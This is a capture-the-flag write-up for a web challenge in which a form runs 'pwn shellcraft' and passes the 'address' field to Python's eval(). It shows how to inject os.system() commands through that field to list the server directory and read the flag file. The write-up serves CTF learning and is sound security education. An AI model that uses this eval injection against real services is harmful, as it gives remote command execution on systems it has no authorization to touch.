 # Shellcode Generator [6]
Tags: Miscellaneous

_Under the nose of SieberrHealth, you spent about a month as an intern for the company, crafting an intentionally vulnerable web-service as a *backdoor* into SieberrHealth's systems._

_Walking out of your office for the last time, you cut across an empty street, slipping into quiet alleyway for the privacy you need._

_Pulling out a tablet, you access the vulnerable website, preparing to..._

_to..._

...

_A pop-up from your device spurs you from your stupor._

_The message reads:_

```
Thank you for working with us at SieberrHealth.
As part of our ongoing efforts to combat lapses in SieberrHealth Security, we are re-calibrating the memory module in your brain's Health360 Integral Chip to remove all memories related to your project: *Shellcode Generator*.
_Obscurity is Security!_
```

_Well, crap._

###### Author's Note: This is a misc challenge. If you find a web-based/pwn-based exploit for this challenge... feel free to flex :)

Hint 1 (2 points): A note on your device reads: pwnlib/commandline/shellcraft.py

## Solving
There's not a lot to see here.

Let's try submitting an empty form (i.e. `shellcode=&address=`):

![](website.png)

The website gives this in response:
```
Your shellcode: usage: pwn [-h] {asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version} ...
Shellcode Assembly:usage: pwn [-h]
{asm,checksec,constgrep,cyclic,debug,disasm,disablenx,elfdiff,elfpatch,errno,hex,phd,pwnstrip,scramble,shellcraft,template,unhex,update,version}
...
```
This looks like the output from a command-line utility, and the [hint](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py) corroborates with this. If you search for the `pwn` command hard enough, you'll figure out that the server is running the command `pwn shellcraft ...` for every request, with the command-line arguments determined by whatever's written in the form.

For example, if you submit a form like this (`shellcode=amd64.crash&address=`):

![](test.png)

The webpage will return this:
```asm
Your shellcode: 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
pop rdi
pop rsi
pop rbp
pop rbx /* add rsp, 8 */
pop rbx
pop rdx
pop rcx
pop rax
xor rsp, rsp /* especially esp */
jmp rsp /* boom */
```
Which corresponds with what you'd get by running this command on a terminal:
```asm
$ pwn shellcraft -f p amd64.crash
    /* fill all registers with shit */
    pop rdi
    pop rsi
    pop rbp
    pop rbx /* add rsp, 8 */
    pop rbx
    pop rdx
    pop rcx
    pop rax
    xor rsp, rsp /* especially esp */
    jmp rsp /* boom */
```
With knowledge of what the server does in the backend, we need to figure out how to exploit it.

## `eval()`
There are 4 arguments available for input: `"shellcode identifier"` (`shellcode`), `"Avoid newlines:"` (`newline`), `"Avoid NULL bytes:"` (`nuls`), and `"Address"` (`address`).

By means of fuzzing/reading-source-code, you're supposed to eventually notice that `address` is [parsed by `eval()`](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/commandline/shellcraft.py#L296-L298) within the source code for pwntools:
```python
    vma = args.address
    if vma:
        vma = eval(vma)
```
This means that it is possible to execute arbitary python code via the `address` input field, provided that `pwn shellcraft ...` doesn't crash before getting to the part where `address` is evaluated.

There are a lot of things you can do with this bug, but the simplest thing to do is to simply inject commands by calling `os.system()`:

![](inject.png)

The resulting webpage response will look like this:
```
Your shellcode: total 64 drwxr-x--- 1 root ctf 4096 Jan 4 08:48 . drwxr-xr-x 1 root root 4096 Jan 3 14:30 .. -rwxr-x--- 1 root ctf 220 Feb 25 2020 .bash_logout -rwxr-x--- 1 root ctf 3771 Feb 25 2020 .bashrc -rwxr-x--- 1 root ctf 807 Feb 25 2020 .profile drwxr-x--- 1 root ctf 20480 Jan 3 14:30 bin drwxr-x--- 1 root ctf 4096 Jan 3 14:30 dev -rwxr----- 1 root ctf 40 Jan 3 13:46 flag lrwxrwxrwx 1 root ctf 7 Jan 3 14:30 lib -> usr/lib lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib32 -> usr/lib32 lrwxrwxrwx 1 root ctf 9 Jan 3 14:30 lib64 -> usr/lib64 lrwxrwxrwx 1 root ctf 10 Jan 3 14:30 libx32 -> usr/libx32 -rwxr-x--- 1 root ctf 955 Jan 4 08:39 main.py drwxr-x--- 1 root ctf 4096 Jan 4 08:48 static drwxr-x--- 1 root ctf 4096 Jan 4 08:48 templates drwxr-x--- 1 root ctf 4096 Jan 3 14:30 usr 5f5e5d5b5b5a59584831e4ffe4
Shellcode Assembly: /* fill all registers with shit */
...
```
All you need to do is to replace `ls -la` in the image with `cat flag` to finish the challenge.

## Flag
`IRS{CVE-2021-PWN_ba03ba78310bcdfe18902}`